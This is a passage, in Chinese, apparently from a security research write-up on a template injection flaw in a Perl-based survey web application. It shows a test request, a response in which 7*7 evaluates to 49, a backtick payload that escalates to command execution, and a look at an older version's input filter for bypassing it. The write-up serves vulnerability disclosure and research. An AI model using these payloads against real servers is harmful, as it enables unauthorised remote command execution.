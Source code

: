 调查页面的渲染方式存在安全缺陷：所有用户输入替换先执行，然后才调用 _fop  
模板引擎。在调用 _fop  
时，_lw  
变量包含了整个页面的 HTML 源码。这种处理方式明显不安全，我们很快就在示例目标中附加了 ?hid_Random_ACARAT=[%257*7%25]  
参数进行测试：  
```
GET /ExampleSurvey/cgi-bin/ciwweb.pl?hid_javascript=1&hid_Random_ACARAT=[%257*7%25] HTTP/2
Host: example.com
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br

...

HTTP/2 200 OK
Date: Thu, 17 Apr 2025 01:20:43 GMT
Content-Type: text/html

...

<input type="hidden" name="hid_javascript" value="0">
<input type="hidden" name="hid_previous" value="0">
<input type="hidden" id="hid_screenwidth" name="hid_screenwidth" value="0">

<input type="hidden" name="hid_Random_ACARAT" value="49">

<input type="hidden" name="hid_show_prev" value="1">
<div class="page_header font_primary_color">

...
```  
  
成功！我们可以轻松地通过在反引号中传递命令来升级此漏洞，使用：  
```
[% %60ls%60 %]
```  
  
注意：由于博客格式限制，上面的反引号进行了 URL 编码。  
## 使漏洞利用更可靠  
  
在分析多个主机时，我们发现运行 9.15.x 版本（该版本非常常见）的旧版主机上，我们的 payload 会失效。系统似乎在[  
和%  
之间插入了空格，导致注入失败：  
```
<input type="hidden" name="hid_Random_ACARAT" value="[ %7*7%]">
```  
  
该防护机制在新版本中似乎已被移除。为了绕过这个限制，我们查看了软件旧版本的一些代码，其中包含了额外的安全检查。在这个旧版本中，它使用了不同的混淆方式，因此我们的查询参数位于 %authlib9_14_2::_akn  
中。  
```
sub _xi {
    my ($__bhr) = @_;
    my $__bhh   = "";
    my $__bhi   = "";
    my $__bhj   = 0;
    my $__bhk   = "";
    foreach $__bhh ( sort keys(%authlib9_14_2::_akn) ) {
        $__bhi = $authlib9_14_2::_akn{$__bhh};
        if ( !$__bhr ) { $__bhi =~ s/</ < /g; $__bhi =~ s/>/ > /g; }
        $__bhi =~ s/onbegin/on begin/ig;
        $__bhi =~ s/<(\s*)script/<$1 s c r i p t/ig;
        $__bhi =~ s/javascript/j a v a _ s c r i p t/ig;
```